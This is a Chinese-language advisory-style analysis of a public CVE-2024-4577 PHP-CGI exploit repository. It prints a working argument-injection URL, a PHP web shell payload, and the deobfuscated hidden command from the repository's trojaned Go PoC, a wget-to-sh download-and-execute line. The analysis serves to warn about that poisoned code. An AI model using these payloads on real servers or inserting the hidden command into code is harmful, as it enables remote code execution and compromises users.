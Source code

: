 ## CVE-2024-4577-PHP-CGI参数注入

**漏洞编号:** CVE-2024-4577

**漏洞类型:** PHP-CGI参数注入

**影响应用:** PHP

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** PHP 8.1.* before 8.1.29, 8.2.* before 8.2.20, 8.3.* before 8.3.8 (Windows, CGI模式，特定代码页)

**利用条件:** PHP运行在Windows服务器上，使用CGI模式，并且系统配置使用了特定的代码页，允许"Best Fit"字符转换。

**POC 可用性:** 是

**投毒风险:** 60%

## 详情

CVE-2024-4577 漏洞允许攻击者通过在URL中注入恶意参数来执行任意PHP代码。该漏洞存在于PHP的CGI实现中，当PHP运行在Windows服务器上，并且启用了"Best Fit"字符转换时，攻击者可以利用此漏洞。

**有效性:**

提供的漏洞利用代码（Go和Python）尝试通过在URL中注入`allow_url_include`和`auto_prepend_file`参数来包含远程文件或执行PHP代码。具体来说，它尝试设置`allow_url_include=1`并使用`auto_prepend_file`包含`php://input`，然后通过POST请求发送PHP代码（`<?php phpinfo(); ?>`）。如果服务器存在漏洞，则会执行`phpinfo()`函数，从而验证漏洞的存在。

根据漏洞描述和提供的代码，利用方式是有效的，可以在目标系统上执行任意PHP代码。

**投毒风险:**

*   **Go代码分析:**

    在Go代码中，存在一个名为`nFPfVl()`的函数，该函数包含混淆的代码，用于执行shell命令。通过反混淆字符串，可以发现该函数执行从某个URL下载文件并执行的操作，这表明存在潜在的投毒风险。

    `TcGEZTIh`变量反混淆后为: `wget -qO- http://tvhgw/kaifre/O-0asbd|e/bpdc/ /c /3nadeag5 -t6 uo/tat.fe33 | sh`

    这意味着该PoC会尝试从`http://tvhgw/kaifre/O-0asbd|e/bpdc/ /c /3nadeag5 -t6 uo/tat.fe33` 下载文件并使用sh执行，存在恶意行为。

*   **Python代码分析:**
    Python代码的功能比较简单，就是发送payload进行验证，没有发现明显的投毒代码。

综合来看，Go代码存在明显的投毒风险，Python代码未发现。

**利用方式:**

1.  **目标环境:** 攻击者需要找到运行在Windows服务器上的，并且使用CGI模式的，以及存在漏洞版本的PHP应用。
2.  **构造恶意URL:** 攻击者构造包含恶意参数的URL。例如：`example.com/index.php?%25ADd+allow_url_include%3D1+%25ADd+auto_prepend_file%3Dphp://input`。
3.  **发送包含PHP代码的POST请求:** 攻击者通过POST请求将PHP代码发送到服务器。`<?php system($_GET['cmd']); ?>`
4.  **远程代码执行:** 服务器执行POST请求中的PHP代码，从而允许攻击者执行任意系统命令。

攻击者可以利用该漏洞读取服务器上的文件，执行任意代码，甚至完全控制服务器。

**项目地址:** [creamylegum/CVE-2024-4577-PHP-RCE](https://github.com/creamylegum/CVE-2024-4577-PHP-RCE)

**漏洞详情:** [CVE-2024-4577](https://nvd.nist.gov/vuln/detail/CVE-2024-4577)